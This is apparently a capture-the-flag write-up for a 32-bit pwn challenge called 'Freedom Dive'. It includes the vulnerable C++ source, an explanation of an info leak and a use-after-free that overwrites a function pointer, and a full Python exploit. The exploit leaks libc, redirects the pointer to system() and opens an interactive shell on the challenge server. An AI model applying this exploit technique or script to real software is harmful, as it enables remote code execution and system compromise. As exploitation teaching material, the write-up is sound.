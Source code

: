 ## [Pwn] Freedom Dive (250)

**freedom_dive.cpp**
```c++
// Mitigation : ASLR, NX, SSP
// compile : g++ -fPIC -fstack-protector-all --param ssp-buffer-size=4 -o freedom_dive freedom_dive.cpp -m32

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

typedef class userProfile {
public:
	char username[36];
	char comment[216];
	void (*cleanMemory)(void *);
	void init(){
		cleanMemory = free;
	}
} Profile;

void welcome();
void echoService();
void displayMenu();
void setProfile(Profile *);
void showProfile(Profile *);
void modifyProfile(Profile *);
void deleteProfile(Profile *);
void quit(Profile *);

int flag;

int main(int argc, char *argv[])
{
	setvbuf(stdout, 0, 2, 0);
	char name[12] = {0,};
	puts("[*] Please input your name");
	read(0, name, 10);
	welcome();
	flag = 0;
	Profile *p;
	unsigned int sel;
	while(true)
	{
		displayMenu();
		scanf("%d", &sel);
		switch(sel){
			case 0:
				echoService();
				break;
			case 1:
				if(flag == 0) p = (Profile *)malloc(256);
				setProfile(p);
				break;
			case 2:
				if(flag == 0){
					puts("[*] Please set the profile first!!");
					break;
				}
				showProfile(p);
				break;
			case 3:
				if(flag == 0){
					puts("[*] Please set the profile first!!");
					break;
				}
				modifyProfile(p);
				break;
			case 4:
				if(flag == 0){
					puts("[*] Please set the profile first!!");
					break;
				}
				deleteProfile(p);
				break;
			case 5:
				quit(p);
				break;
			default:
				puts("[*] No such command!!");
				break;
		}
	}
}

void welcome(){
	puts("\n   ============== Comment Service ==============");
	puts("   Welcome to my comment service!");
	puts("   It's wonderful service, but incompleted :(");
	puts("   So, It allows you use only one account.");
	puts("   Please be fun with my service!");
	puts("   =============================================\n");
}

void echoService(){
	char *echoMessage = (char *)malloc(256);
	puts("[*] Input Message : ");
	read(0, echoMessage, 256);
	puts("[*] Echo");
	puts(echoMessage);
	free(echoMessage);
}

void displayMenu(){
	puts("========== Menu ==========");
	puts("0. Echo service");
	puts("1. Set Profile");
	puts("2. Show Profile");
	puts("3. Modify Profile");
	puts("4. Delete Profile");
	puts("5. Exit");
	puts("[Select menu]");
}

void setProfile(Profile *pro){
	pro->init();
	puts("[*] Input Name");
	read(0, pro->username, 36);
	puts("[*] Input Description");
	read(0, pro->comment, 216);
	flag++;
}

void showProfile(Profile *pro){
	puts("[username]");
	puts(pro->username);
	puts("[comment]");
	puts(pro->comment);
}

void modifyProfile(Profile *pro){
	int num;
	showProfile(pro);
	puts("============================");
	puts("[*] Input name");
	num = read(0, pro->username, 36);
	pro->username[num] = '\0';
	puts("[*] Input Description");
	num = read(0, pro->comment, 216);
	pro->comment[num] = '\0';
	puts("============================");
}

void deleteProfile(Profile *pro){
	pro->cleanMemory(pro);
	flag--;
}

void quit(Profile *pro){
	exit(0);
}
```

The vulnerability can be found easily.
You can easily find the leak vulnerability, because all of string input in **setProfile** use **read** function and it exactly same with name and comment's size.  
Because the variable **flag** is checked whether it is 1 or not, you can allocate memory two times or more.  
Furthermore, function **deleteProfile()** free the memory and decrease flag only 1.  
In addition, **echoService** in menu 0 use Memory exactly 256 bytes which is same with **Profile** class's size.  
So, you can use **Use After Free Bug** by allocatiog twice and selecting menu 0, **echoService**.  

As the **deleteProfile()** calls the function pointer in the **Profile** class, you can overwrite it.
So, Exploit route is as follows.  
`Menu 1 => Menu 1 => Menu 2(Leak) => Menu 4 => Menu 0 => Overwrite Pointer => Menu 4 (Trigger)`

You can find the offset between free and system using the leak vulnerability.
So you can overwrite the function pointer with system function's library address.


Exploit code is as follows.
```python
import telnetlib
from hackutil import *
from socket import *
from time import *

#========================
HOST = '45.55.163.13'
PORT = 9000
offset_free_system = 0x37d30
#========================

sock = socket(AF_INET, SOCK_STREAM)
sock.connect((HOST, PORT))
 
print sock.recv(1024)
sock.send('5kyc1ad')
sock.recv(1024)

for i in range(2):
	sock.send('1\n')
	sleep(0.1)
	sock.recv(1024)

	sock.send('5kyc1ad_Dummy')
	sleep(0.1)
	sock.recv(1024)

	sock.send('A'*216) # For memory Leak - free() library function
	sleep(0.1)
	sock.recv(1024)

sock.send('2\n')
sleep(0.1)
sock.recv(1024)
data = sock.recv(2048)

free_lib = up32(data[data.find('A'*216)+216:data.find('A'*216)+220])[0]
system_lib = free_lib - offset_free_system
print "[*] Find free@lib : " + str(hex(free_lib))
print "[*] Offset [free - system] : " + str(hex(offset_free_system))
print "[*] Find system@lib : " + str(hex(system_lib))

sock.send('4\n')
sleep(0.1)
sock.recv(1024)

sock.send('0\n')
sleep(0.1)
sock.recv(1024)

payload = '/bin/sh\x00'+'A'*244+p32(system_lib)

sock.send(payload)
sleep(0.1)
print "[*] Payload injected : " + str(len(payload)) + " bytes"
sock.recv(1024)

sock.send('4\n')
print hexdump(sock.recv(1024))
print "=============== [*] Got the shell ==============="
t = telnetlib.Telnet()
t.sock = sock
t.interact()
```

